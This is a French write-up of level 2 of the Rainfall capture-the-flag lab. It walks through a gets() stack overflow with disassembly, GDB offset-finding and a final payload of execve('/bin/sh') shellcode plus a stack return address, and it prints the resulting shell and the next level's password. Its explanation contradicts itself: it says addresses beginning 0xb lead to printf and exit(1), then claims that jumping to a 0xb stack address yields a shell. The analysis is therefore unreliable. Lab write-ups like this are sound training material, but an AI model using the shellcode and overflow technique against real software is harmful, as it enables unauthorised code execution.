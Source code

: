 # Rainfall - Flag 2

---

## ⚡ Objectif

Injecter un shellcode via `gets()` dans la stack ou le heap, puis exécuter ce shellcode en redirigeant `EIP`, en contournant une condition filtrant les adresses.

---

## 📝 Analyse du binaire

La fonction `p()` contient les éléments suivants :

```asm
lea    -0x4c(%ebp), %eax   ; buffer local
call   gets@plt            ; vulnérable, pas de limite
...
mov    0x4(%ebp), %eax
and    $0xb0000000, %eax
cmp    $0xb0000000, %eax   ; autorise uniquement les adresses 0xbxxxxxxx
```

Puis, si la condition est remplie, le programme exécute :

```c
printf("%s", ptr);
exit(1);
```

Sinon, il fait un `strdup(buffer)` et quitte.

---

## 🔍 Observation

* `gets()` permet d’injecter **n’importe quel code** dans un buffer local (sur la **stack**).
* Le test de sécurité n’autorise que les adresses **commençant par 0xb**, ce qui correspond à la stack.
* Le shellcode peut donc être exécuté **directement depuis la stack**.

---

## 🧠 Utilisation de GDB

On lance le programme avec un pattern unique pour identifier l'offset :

```bash
(gdb) run < <(python -c 'print("Aa0Aa1Aa2...Ag5Ag")')
```

Après le crash :

```bash
(gdb) info registers
EIP = 0x37634136
```

On utilise ensuite un générateur de pattern pour retrouver l'offset correspondant (ex : Wiremask).
Ici, `0x37634136` correspond à un **offset de 80** octets jusqu’à `EIP`.

On vérifie aussi l'adresse de la stack après `gets()` :

```bash
(gdb) break *main+X
(gdb) run
(gdb) x/100x $esp
```

Cela nous donne une adresse dans la stack (`0xbffff774` par exemple) où injecter le shellcode.

---

## 🛠 Payload final utilisé

```bash
(python -c 'print(
  "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68"
  "\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
  + "A"*59
  + "\x74\xf7\xff\xbf"  # adresse stack pointant vers le shellcode
)'; cat) | ./level2
```

Ce shellcode est un `execve("/bin/sh", NULL, NULL)` classique.

* Le padding est de 59 octets car le shellcode fait 21 octets, et l’offset jusqu’à `EIP` est 80.
* L’adresse `0xbffff774` est une adresse stack visible juste après l’appel à `gets()` dans GDB.

---

## 🧪 Résultat

```bash
whoami
# level3

cat /home/user/level3/.pass
# 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

---

## 📅 Résumé

* ✅ Injection de shellcode via `gets()` dans un buffer stack
* ✅ Redirection de `EIP` vers l’adresse du shellcode (`0xbffffXXX`)
* ✅ Condition du programme satisfaite (`(ptr & 0xb0000000) == 0xb0000000`)
* ✅ Offset `EIP` identifié à 80 octets via GDB et pattern unique
* ✅ Shell obtenu, flag récupéré
